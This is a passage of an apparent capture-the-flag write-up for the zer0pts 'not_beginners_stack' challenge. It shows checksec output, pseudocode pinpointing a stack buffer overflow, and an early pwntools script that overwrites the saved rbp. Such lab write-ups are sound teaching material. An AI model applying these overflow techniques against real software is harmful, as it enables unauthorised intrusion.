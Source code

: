 Wow, this is definitely a unique challenge. Let's try `checksec`:
```
$ checksec chall
[*] '/home/plushie/Programs/zer0pts/not_beginners_stack/chall'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

Cool, so there are 0 mitigations in place.

First let's make some pseudocode:
```c
void start() {
    notvuln()
    exit()
}

int notvuln() {
    char buf[0x100];
    vuln();
    write(1, "Data: ", 6);
    read(0, buf, 0x100);
    return 0;
}

int vuln() {
    char buf[0x100];
    write(1, "Data: ", 6);
    read(0, buf, 0x1000); // [!] vulnerability
    return;
}
```

Let's follow the author's advice and try overwriting `rbp` in `vuln()`.

```python
import pwn

io = pwn.process("./chall")

if pwn.args.GDB:
    # breakpoints:
    # 0x4001d4: vuln.leave
    # 0x400138: after notvuln.write
    # 0x400165: after notvuln.read
    pwn.gdb.attach(
        io,
        gdbscript="""
break *0x4001d4
break *0x400138
break *0x400165
continue
    """,
    )

# Sets $rbp to 0xdeadbeef
payload = b"A" * 0x100 + pwn.p64(0xDEADBEEF)
io.sendlineafter("Data: ", payload)
io.interactive()
```
